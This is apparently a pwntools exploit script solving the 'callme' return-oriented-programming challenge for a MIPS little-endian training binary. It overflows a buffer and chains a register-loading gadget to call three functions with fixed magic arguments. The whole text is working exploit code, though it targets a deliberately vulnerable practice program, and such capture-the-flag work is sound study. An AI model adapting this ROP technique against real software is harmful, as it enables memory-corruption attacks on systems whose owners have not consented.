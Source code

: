 ```python
from pwn import *
context.binary = elf = ELF('callme_mipsel')

'''
0x00400bb0: lw $a0, 0x10($sp); lw $a1, 0xc($sp); lw $a2, 8($sp); lw $t9, 4($sp); jalr $t9; nop; 
'''

u_g = 0x00400bb0
offset = 4*9

a0 = 0xdeadbeef
a1 = 0xcafebabe
a2 = 0xd00df00d 
jump1 = elf.sym['callme_one']
jump2 = elf.sym['callme_two']
jump3 = elf.sym['callme_three']

arg = p32(a2)+p32(a1)+p32(a0)

payload = b'A'*offset + p32(u_g)+p32(0x1)+p32(jump1)+arg + p32(u_g) + p32(0x1) +p32(jump2) + arg + p32(u_g) + p32(0x1) +p32(jump3) + arg

#p = gdb.debug(elf.path)
p = elf.process()

p.recv()
p.sendline(payload)
log.info(p.recvall())
```


